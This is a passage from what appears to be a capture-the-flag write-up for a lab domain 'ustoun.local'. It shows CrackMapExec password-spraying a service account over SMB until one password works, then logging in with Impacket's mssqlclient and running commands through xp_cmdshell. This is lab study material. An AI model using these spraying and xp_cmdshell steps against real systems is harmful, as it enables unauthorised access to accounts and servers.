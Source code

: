 ```text
SMB         10.10.69.80     445    DC               [-] ustoun.local\SVC-Kerb:secret STATUS_LOGON_FAILURE 
SMB         10.10.69.80     445    DC               [-] ustoun.local\SVC-Kerb:andrea STATUS_LOGON_FAILURE 
SMB         10.10.69.80     445    DC               [-] ustoun.local\SVC-Kerb:carlos STATUS_LOGON_FAILURE 
SMB         10.10.69.80     445    DC               [-] ustoun.local\SVC-Kerb:jennifer STATUS_LOGON_FAILURE 
SMB         10.10.69.80     445    DC               [-] ustoun.local\SVC-Kerb:joshua STATUS_LOGON_FAILURE 
SMB         10.10.69.80     445    DC               [-] ustoun.local\SVC-Kerb:bubbles STATUS_LOGON_FAILURE 
SMB         10.10.69.80     445    DC               [-] ustoun.local\SVC-Kerb:1234567890 STATUS_LOGON_FAILURE 
SMB         10.10.69.80     445    DC               [+] ustoun.local\SVC-Kerb:superman
```

## Impacket MSSQLClient

CrackMapExec has found the service accounts password. Let's use those credentials and attempt to login to SQL using Impackets client script that gives us a basic shell:

```text
┌──(root💀kali)-[~/thm/ustoun]
└─# mssqlclient.py SVC-Kerb@ustoun.local
Impacket v0.9.23.dev1+20210315.121412.a16198c3 - Copyright 2020 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC): Line 1: Changed database context to 'master'.
[*] INFO(DC): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL> help

     lcd {path}                 - changes the current local directory to {path}
     exit                       - terminates the server process (and this session)
     enable_xp_cmdshell         - you know what it means
     disable_xp_cmdshell        - you know what it means
     xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
     sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
     ! {cmd}                    - executes a local shell cmd
```

Let's see if we can use xp_cmdshell to execute something on the server:

```text
SQL> xp_cmdshell whoami
dc01\svc-kerb                                                                      
```
